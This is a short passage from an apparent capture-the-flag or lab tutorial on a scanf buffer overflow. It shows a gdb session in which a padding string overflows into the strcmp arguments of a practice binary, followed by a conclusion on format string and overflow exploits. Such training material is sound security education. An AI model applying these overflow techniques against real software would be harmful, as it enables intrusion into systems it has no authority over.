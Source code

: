 ```bash
The program being debugged has been started already.

Start it from the beginning? (y or n) y
```

```bash
Starting program: /home/serpent/challenges/Ch3_07_ScanfOverflow/Ch3_07_ScanfOverflow <<< $(printf "AAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO")
```

```bash
...

Breakpoint 1, 0x0000000000401392 in main ()
```

```bash
(gdb) c
```

```bash
Continuing.

Breakpoint 2, 0x0000000000401205 in user_input () (gdb) x/s $rsi 0x7fffffffdfd0: "JJJJKKKKLLLLMMMMNNNNOOOO" (gdb) x/s $rdi 0x7fffffffdfa0: "REPLACE"
```

> Note: The `$rdi` and `$rsi` registers above contain the parameters that get passed to the strcmp function (i.e. the two strings that are being compared). Note that our input ends up in rsi whereas the string replace ends up in rdi rather than the password.

## Conclusion {#conclusion}

At this point you have:

* Written a format string attack to overwrite a variable with a memory address

* Exploited some buffer overflows on Linux

Well done!
